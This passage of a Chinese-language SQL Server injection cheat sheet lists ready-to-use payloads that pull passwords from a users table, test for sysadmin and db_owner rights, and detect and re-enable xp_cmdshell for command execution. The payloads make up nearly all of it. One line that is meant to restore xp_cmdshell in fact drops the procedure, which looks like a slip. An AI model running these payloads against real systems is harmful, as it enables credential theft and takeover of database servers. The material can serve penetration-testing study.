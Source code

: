 #### 5. 获取表users的数据

```
# 获取第一个用户名对应的密码
id=1 and 1=(select top 1 [列名] from [表名])
id=1 and 1=(select top 1 [列名] from [表名] where [列名]<>'[具体数据]')
以此类推

# 示例
id=1 and 1=(select top 1 upass from users)
id=1 and 1=(select top 1 upass from users where upass<>'123456')
```

#### 6. 用户权限分析

基本信息搜集注入点权限判断

```
# 判断是否是系统管理员
and 1=(select is_srvrolemember('sysadmin'))

# 判断是否是库权限
and 1=(select is_srvrolemember('db_owner'))

# 判断是否是public权限
and 1=(select is_srvrolemember('public'))

# 当前数据库名
and 1=convert(int,db_name())或1=(select db_name())

# 本地服务名
and 1=(select @@servername)

# 判断是否有库读取权限
and 1=(select HAS_DBACCESS('master'))
```



## 0x06 Mssql扩展存储注入攻击(xp_cmdshell)

#### 1. 检测与恢复扩展存储（提升至sa权限并可执行xp_cmdshell）

```
# 判断xp_cmdshell扩展存储是否存在
id=1 and 1=(select count(*) from master.dbo.sysobjects where xtype='x' AND name='xp_cmdshell')
# 判断xp_regread扩展存储过程是否存在
id=1 and 1=(select count(*) from master.dbo.sysobjects where name='xp_regread')
# 恢复xp_cmdshell（如果不能新建用户则先执行此条，如为sa权限则可以跳过此步骤）
id=1;exec sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;
# 如果恢复不了则需要指定xplog70.dll文件
id=1;exec sp_dropextendedproc xp_cmdshell,'xplog70.dll'

# 如果dll文件也被删除，那就需要先想办法上传xplog70.dll再执行上述操作。
```
